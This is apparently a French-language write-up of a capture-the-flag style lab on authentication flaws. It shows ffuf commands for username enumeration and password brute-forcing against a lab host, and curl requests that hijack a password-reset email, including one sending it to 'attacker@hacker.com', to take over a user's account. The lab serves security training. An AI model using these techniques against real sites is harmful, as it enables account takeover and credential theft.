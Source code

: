 
## FUFF  FUZZ 
``` ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.184.61/customers/signup -mr "username already exists" ```


<h6> Dans l'exemple ci-dessus, l'argument -w sélectionne l'emplacement du fichier sur l'ordinateur qui contient la liste des noms d'utilisateur que nous allons vérifier. L'argument -X spécifie la méthode de requête, il s'agit d'une requête GET par défaut, mais il s'agit d'une requête POST dans notre exemple. L'argument -d spécifie les données que nous allons envoyer. Dans notre exemple, nous avons les champs username, email, password et cpassword. Nous avons fixé la valeur du nom d'utilisateur à FUZZ. Dans l'outil ffuf, le mot-clé FUZZ indique l'endroit où le contenu de notre liste de mots sera inséré dans la requête. L'argument -H est utilisé pour ajouter des en-têtes supplémentaires à la requête. Dans le cas présent, nous définissons le type de contenu (Content-Type) afin que le serveur web sache que nous envoyons des données de formulaire. L'argument -u spécifie l'URL à laquelle nous envoyons la requête, et enfin, l'argument -mr est le texte de la page que nous recherchons pour valider que nous avons trouvé un nom d'utilisateur valide.

L'outil ffuf et la liste de mots sont préinstallés sur l'AttackBox ou peuvent être installés localement en les téléchargeant sur https://github.com/ffuf/ffuf.

Créez un fichier appelé valid_usernames.txt et ajoutez les noms d'utilisateur que vous avez trouvés en utilisant ffuf ; ils seront utilisés dans la tâche 3.</h6>


## Brute Force : 

``` ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.184.61/customers/login -fc 200```

<h6> Cette commande ffuf est un peu différente de la précédente dans la tâche 2. Auparavant, nous utilisions le mot-clé FUZZ pour sélectionner l'endroit de la requête où les données des listes de mots seraient insérées, mais comme nous utilisons plusieurs listes de mots, nous devons spécifier notre propre mot-clé FUZZ. Dans le cas présent, nous avons choisi W1 pour notre liste de noms d'utilisateur valides et W2 pour la liste des mots de passe que nous allons essayer. Les listes de mots multiples sont à nouveau spécifiées avec l'argument -w mais séparées par une virgule.  Pour une correspondance positive, nous utilisons l'argument -fc pour vérifier la présence d'un code d'état HTTP autre que 200.</h6>



## Hacking Autentification 

<h2> Requete 1 </h2>
```bash
  curl 'http://10.10.184.61/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
  ```

<h2> requete 2 </h2>
```curl 'http://10.10.184.61/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'```

<h2> requete 3 fin </h2>
 ```curl 'http://10.10.184.61/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'```


<h6> Explication
Nous utilisons l'option -H pour ajouter un en-tête supplémentaire à la requête. Dans ce cas, nous définissons le Content-Type à application/x-www-form-urlencoded, ce qui permet au serveur web de savoir que nous envoyons des données de formulaire afin qu'il comprenne correctement notre requête.
Dans l'application, le compte utilisateur est récupéré à l'aide de la chaîne de requête, mais plus tard, dans la logique de l'application, l'e-mail de réinitialisation du mot de passe est envoyé à l'aide des données trouvées dans la variable PHP $_REQUEST.

La variable PHP $_REQUEST est un tableau qui contient les données reçues de la chaîne de requête et des données POST. Si le même nom de clé est utilisé pour la chaîne de requête et les données POST, la logique d'application pour cette variable favorise les champs de données POST plutôt que la chaîne de requête, donc si nous ajoutons un autre paramètre au formulaire POST, nous pouvons contrôler où l'e-mail de réinitialisation du mot de passe est envoyé. </h6>


<h4>Explication 3</h4>
<h6>Pour l'étape suivante, vous devez créer un compte dans la section client du support informatique d'Acme, ce qui vous donne une adresse électronique unique qui peut être utilisée pour créer des tickets de support. L'adresse électronique est au format {nom d'utilisateur}@customer.acmeitsupport.thm.

En réexécutant la requête Curl 2, mais avec votre @acmeitsupport.thm dans le champ de l'adresse électronique, vous obtiendrez un ticket créé sur votre compte, qui contient un lien vous permettant de vous connecter en tant que Robert. En utilisant le compte de Robert, vous pouvez voir ses tickets d'assistance et révéler un drapeau.</h6>





